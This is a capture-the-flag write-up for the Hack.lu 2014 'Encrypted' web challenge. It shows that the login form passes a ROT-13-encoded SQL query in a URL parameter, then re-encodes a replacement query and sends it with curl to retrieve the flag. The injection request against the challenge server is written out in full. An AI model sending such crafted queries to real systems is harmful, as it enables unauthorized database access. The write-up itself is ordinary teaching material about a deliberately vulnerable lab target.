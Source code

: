 # Hack.lu CTF 2014: Encrypted

**Category:** Web
**Points:** 50
**Author:** TheJH
**Description:**

> Legend says there is a bank vault in Jamestown which cannot be broken into. The only way inside is through an authentication process. Even Jesse James and his companions failed to break the security of this particular bank. Can you do it?
>
> <https://wildwildweb.fluxfingers.net:1411/>

## Write-up

The website at <https://wildwildweb.fluxfingers.net:1411/> displays a simple login form. Entering `a` as the username and `b` as the password results in the following URL:

```
https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG+%60anzr%60+SEBZ+%60hfref%60+JURER+%60anzr%60+%3D+%27n%27+NAQ+%60cnffjbeq%60+%3D+ZQ5%28%27o%27%29
```

This presents an error message saying “bad password”.

That `dhrel` query string parameter value [URL-decodes into the following](https://mothereff.in/url#FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60%20JURER%20%60anzr%60%20%3D%20%27n%27%20NAQ%20%60cnffjbeq%60%20%3D%20ZQ5%28%27o%27%29):

```
FRYRPG `anzr` SEBZ `hfref` JURER `anzr` = 'n' NAQ `cnffjbeq` = ZQ5('o')
```

This is a ROT-13-encoded SQL query. Let’s decode it using [`rot`](https://github.com/mathiasbynens/rot):

```bash
$ rot -n 13 'FRYRPG `anzr` SEBZ `hfref` JURER `anzr` = 'n' NAQ `cnffjbeq` = ZQ5('o')'
SELECT `name` FROM `users` WHERE `name` = a AND `password` = MD5(b)
```

Since we don’t know any username or password, let’s simplify this query a little bit:

```sql
SELECT `name` FROM `users`
```

This ROT-13-encodes into:

```bash
$ rot -n 13 'SELECT `name` FROM `users`'
FRYRPG `anzr` SEBZ `hfref`
```

After URL-encoding, [this becomes](https://mothereff.in/url#FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60):

```
FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60
```

Let’s make the request:

```bash
$ curl 'https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60'

<!DOCTYPE html>
<html>
  <head>
    <title>Encrypted Login</title>
  </head>
  <body>
    <h1>Encrypted Login</h1>
Hello admin! The flag is flag{nobody_needs_server_side_validation}.  </body>
</html>
```

The flag is `flag{nobody_needs_server_side_validation}`.

## Other write-ups and resources

* none yet

